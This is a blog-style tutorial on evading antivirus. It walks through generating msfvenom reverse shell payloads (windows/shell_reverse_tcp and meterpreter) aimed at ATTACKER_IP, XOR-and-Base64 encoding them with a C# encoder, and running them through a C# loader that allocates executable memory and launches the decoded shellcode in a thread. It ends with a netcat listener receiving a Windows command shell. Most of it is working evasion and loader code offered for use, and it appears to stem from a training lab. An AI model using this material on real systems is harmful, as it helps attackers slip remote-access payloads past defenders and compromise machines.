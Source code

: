 ```yaml
---
title: Evading AV
date: 2023-07-08T22:12:14.963Z
tags: []
description: A short blog post which touches ways to create payloads which have
  more a chance to evade anti-virus solutions.
---
```

## AV Detection

Antivirus solutions are able to analyze EXE files based on the information in the PE header and other PE sections.

Below are some interesting ways you can store shellcode in a PE

* Define shellcode as a local variable within the main function - it will be scored in the `.text` PE section
* Define shellcode as a global variable - it will be stored in the `.data` section
* Store shellcode as a raw binary in an icon image and link it within the code - stored in `.rsrc` data section
* Add a custom section to store the shellcode

## Shellcode Encoding - `MSFVenom`

Public tools such as `Metasploit` provide encoding and encryption features. However, AV vendors are aware of the way these tools build their payloads and take measures to detect them. If you try using any feature out of the box, chances are that your payloads will be detected as soon as the file touches the disk.

To generate a simple payload with this method, see below

First list all encoders available to `msfvenom`

```shell
user@machine$ msfvenom --list encoders | grep excellent
	cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

You can indicate what encoder to use by using the `-e` switch, and define how many times you want to encode it with the `-i` switch

```shell
user@machine$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
...
```

However, if you try and use this payload then the AV will start complaining instantly.

If encoding doesn’t work, you could try in encryption, we would expect encryption to have a higher success rating than encoding.

## Shellcode Encryption - `MSFVenom`

Similarly to encoding, you can list the available encryption algorithms:

```shell
user@machine$ msfvenom --list encrypt
	Name
    ----
    aes256
    base64
    rc4
    xor
```

This example will build an XOR encrypted payload. For this type of algorithm, you need to specify a key, in the example the key is “supersecret”

```shell
user@machine$ msfvenom - windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "supersecret" -o xored-revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
```

This will also be detected more often than not… sorry to burst your bubble.

The way to overcome these super-smart antivirus solutions is to create your own payload, so you will now learn how to do that.

## Creating a Custom Payload

Antivirus solutions do not know what to do to analyze your payload, notice you don’t have to do anything too complex, as long as it is confusing enough for the AV to analyse (this is not hard, as static analysis generally isn’t too good)

For this example, you will use a simple reverse shell generated by `msfvenom` and use a combination of XOR and Base64 to bypass windows defender.

Generate a reverse shell with `msfvenom` in C# format

```shell
user@machine$ msfvenom LHOST=ATTACKER_IP LPORT=443 -p windows/x64/shell_reverse_tcp \
             -f csharp
```

Before building the actual payload, you will create a program that will encode the program how you like, called the encoder. In this case you will be XORing the payload with a custom key first, then encoding it using base64. Below is the C# source code

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Dropper for Decrypting
            string key = "supersecret";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));
        }
    }
}
```

Remember:

* Change the encryption key (if you want…)
* Change the value of the `buf` variable with the shellcode output by `msfvenom`

You can then compile and execute the program with the following commands (windows)

```powershell
C:\> csc.exe Encrypter.cs
C:\> .\Encrypter.exe
  OJNFOBNopoijfvwo8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=
```

### Self-decoding Payload

Since you have an encoded payload, you need to adjust your code so that it decodes the shellcode before executing it. To match the encoder, you need to decode everything in the reverse order. Decoding code can be found below:

```csharp

using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Compile the code using:

```powershell
C:\> csc.exe EncStageless.cs
```

Before running the payload, set up a netcat listener to listen on the port you supplied to metasploit when you generated the payload:

```shell
user@machine$ nc -lvp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```